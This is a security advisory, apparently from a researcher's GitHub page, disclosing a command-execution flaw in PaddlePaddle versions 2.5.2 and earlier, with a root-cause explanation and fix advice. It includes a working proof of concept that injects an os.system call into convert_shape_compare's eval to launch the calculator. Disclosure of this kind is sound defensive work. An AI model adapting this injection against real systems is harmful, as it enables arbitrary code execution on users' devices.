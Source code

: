 
Vulnerability Product: Baidu.Inc PaddlePaddle's paddle  
Vulnerability version: <= 2.5.2  
Vulnerability type: Command Execution  
Vulnerability vender: Baidu.Inc  
Vulnerability Details:  discovered by leeya_bug  
Vulnerability location: paddle/jit/dy2static/convert_operators.py  

Baidu.Inc PaddlePaddle's Official lib paddle exists Command Execute Vulnerability, Easy to cause User's devices to be hijacked by attackers.

## [](#header-3)PROVE: 

0、Prepare a computer which could run Python3 and Windows10

1、Download Paddle latest version(or <= v2.5.2 if paddle updated)  
```
pip3 install paddlepaddle==2.5.2
```

2、Run Python3, Construct a payload that can run calculator, And run belowing code in python  
```py
import paddle
paddle.jit.dy2static.convert_operators.convert_shape_compare('prefix','+ str(__import__("os").system("calc")) +','1')
```

3、You can find it successfully run calculator  
![图片](https://raw.githubusercontent.com/Leeyangee/leeya_bug/main/AboutThis1.png)  
proved Command Execution  

POC:  
```py
import paddle
paddle.jit.dy2static.convert_operators.convert_shape_compare('prefix','+ str(__import__("os").system("calc")) +','1')
```

## [](#header-3)REASON: 

There is an unfiltered dangerous function (line 681) in API:convert_shape_compare of path paddle/jit/dy2static/convert_operators.py, allowing attackers to construct payloads to bypass the filter and result in user's command execution
![图片](https://raw.githubusercontent.com/Leeyangee/leeya_bug/main/AboutThis2.png)  

## [](#header-3)FIX: 

1、do not use eval()  
2、filter more  

discovered by leeya_bug  
2023/12/15
